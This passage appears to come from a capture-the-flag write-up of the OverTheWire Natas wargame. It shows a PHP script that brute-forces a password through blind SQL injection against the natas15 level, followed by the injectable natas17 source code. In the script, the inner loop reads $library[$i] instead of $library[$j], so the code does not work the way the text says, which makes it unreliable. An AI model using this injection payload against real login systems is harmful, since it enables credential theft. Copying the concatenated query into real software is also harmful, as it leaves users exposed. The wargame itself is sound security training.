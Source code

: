 ~~~~
    {
        $library .= $character;
    }
}

$password = '';

for ($i = 0; $i < 32; $i++)
{
    for ($j = 0; $j < strlen($library); $j++)
    {
        $character = $library[$i];
        $r = post("http://natas15.natas.labs.overthewire.org/index.php?debug", ['username' => "natas16\" AND password LIKE BINARY \"$password$character%\"#"]);
        if (strpos($r, "<br>This user exists.<br>"))
        {
            $password .= $character;
            echo "$password\n";
        }
    }
}
~~~~
And once again, we watch the password build before our very eyes.


## Natas 17 🡆 Natas 18

~~~~
<html> 
<head> 
<!-- This stuff in the header has nothing to do with the level --> 
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css"> 
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" /> 
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" /> 
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script> 
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script> 
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script> 
<script>var wechallinfo = { "level": "natas17", "pass": "<censored>" };</script></head> 
<body> 
<h1>natas17</h1> 
<div id="content"> 
<? 

/* 
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
*/ 

if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas17', '<censored>'); 
    mysql_select_db('natas17', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) { 
    if(mysql_num_rows($res) > 0) { 
~~~~
